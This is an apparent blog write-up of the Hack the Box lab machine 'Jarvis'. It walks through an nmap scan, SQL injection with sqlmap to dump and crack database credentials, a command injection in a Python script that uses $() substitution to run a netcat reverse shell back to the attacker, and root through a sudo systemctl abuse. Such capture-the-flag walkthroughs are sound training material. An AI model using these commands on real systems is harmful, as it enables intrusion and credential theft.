 +++
author = "Nick"
categories = ["CTF", "enumeration", "Linux", "metasploit", "netcat", "python", "reverse shell", "web services", "SQL Injection"]
date = 2019-11-09T16:06:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-2.png"
slug = "hack-the-box-jarvis"
summary = "Today we're going to do the machine Jarvis on Hack the Box. This box was a total pain in the ass due to the way my reverse shell was terminating lines. After I figured out that was the problem it was easier. Lets jump in!"
tags = ["CTF", "enumeration", "Linux", "metasploit", "netcat", "python", "reverse shell", "web services", "SQL Injection"]
title = "Hack the Box - Jarvis"

+++


Today we're going to do the machine Jarvis on Hack the Box. This box was a total pain in the ass due to the way my reverse shell was terminating lines. After I figured out that was the problem it was easier. Lets jump in!

The first things we do is our standard nmap command ```nmap -sC -sV -oA jarvis 10.10.10.143``` We get back a small result

```
Nmap scan report for 10.10.10.143
Host is up (0.058s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So the first thing we do is to head over to the http port and see what's being hosted. We see a hotel site. Many of the links are dead, but the rooms are not. So lets look at them. The first thing we notice is that the rooms page sends us to rooms-suites.php. There's a good chance that we can exploit some PHP. When we click on room 1 and wee it references ?cod=1

{{< figure src="__GHOST_URL__/content/images/2019/08/image-23.png" caption="This might be injectable.&nbsp;" >}}

We can run some manual SQL injections against it to test. Turns out it is injectable. We actually get banned for 90 seconds by issuing '1=1'"--. So lets run some sqlmap against it. We run ```sqlmap -u http://10.10.10.143/room.php?cod=1 --dbs --no-cast``` We have to use --no-cast to convert our null values becuase the service running will likley ban us due to injection attempts.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-10.png" caption="sqlmap -u http://10.10.10.143/room.php?cod=1 --dbs --no-cast" >}}

Now that we've run our mapping successfully, we get back a list of databases. We will check the tables of the 'mysql' database by issuing ```sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql --tables```.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-11.png" >}}

Now that we've dumped the mysql table, lets dump the user portion of it. We issue ```sqlmap -u http://10.10.10.143/room.php?cod=1 -D mysql -T user --dump``` The -D is for Database, the -T is for Table and well we know what --dump does.

Once we've dumped the table we have a user of DBAdmin. SQLMAP will offer to crack the password for us, so why not.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-12.png" caption="The cracked password for the phpmyadmin DBAdmin account." >}}

We know that there is a phpmyadmin console running from enumerating the web service with dirbuster and the default word list.

Next we'll use SQLMAP --shell functionality to see if we can create a reverse shell. We'll issue ```sqlmap -u http://10.10.10.143/room.php?cod=6 -D hotel --os-shell --no-cast```.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-13.png" >}}

It worked, we  get a shell as www-admin. So we'll poke around the box. We see that there is a user called Pepper, but we can't access the user.txt file. We try to do some manual enumeration and see that there is a file we can run, simpler.py.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-14.png" >}}

When we run the python app as us, we can't. We can however run it as pepper. When we do we're greeted with a command screen:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-24.png" >}}

The script seems to give us some info on who would be considered an attacker. Lets look at the source of the script. When we do we see this function, exec_ping() that correlates to the -p command of the script.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-15.png" >}}

Now this is where I was having issues with the program. No matter how many times I attempted to run the program, i would get EOF errors:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-25.png" caption="EOF Error?!" >}}

So turns out that the shell I was getting from SQLMAP was sending some odd terminal characters in the blank space?! So, I created a quick MSFPayload with MSFPC for a php reverse shell and everything was easy from there out!

This is a text book command injection, with a twist. We have some forbidden characters. So normally, we would be able to issue something like ```simpler.py -p 1 & {MALICIOUS COMMAND}```. This would tell the os to ping an ip of 1 and then execute our malicous command. However, since & is forbidden as well as most standard concatination commands we'll need to be a little bit more creative. We can use [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html) since the $ is not forbidden.

The first thing we'll do is a create a small script to initiate a netcat connection back to us.

```bash
echo 'nc 10.10.15.197 4444 -e /bin/bash' > remote.sh
```

We'll then use Command Substitution within the python program to call thsi script. So in the end we have something like this:

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
Enter an IP: $(/bin/bash remote.sh)
```
So we'll initiate a netcat session: ```nc -lvnp 4444```

After we run it, we see our netcat session light up!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-18.png" caption="We've obtained user!" >}}

Now that we're logged in as pepper, lets snag our user key and move onto root!

The shells on the free box have been quite flakey so to hopefully mitigate this, I generated a new id_rsa.pub file and copied it to the box for easy ssh access. Alternatively you can echo your key to the file if it already exists.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-19.png" >}}

Now that I can ssh into the box, we download LinEnum.sh to the machine and see what pops up.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-20.png" >}}

While parsing through the LinEnum outputs, we see this line:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-21.png" >}}

Pepper has the ability to run systemctl. That's quite handy. So we do some googling around and find this: [https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/). This will allow us to bypass the requirements for creating a Unit. So we can create a reverse shell task as root and hopefully obtain our flag!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-26.png" caption="We follow the steps that are given to us by gtfobins and..." >}}

We have root!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-22.png" >}}

Another one bites the dust! We'll see you next time!

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

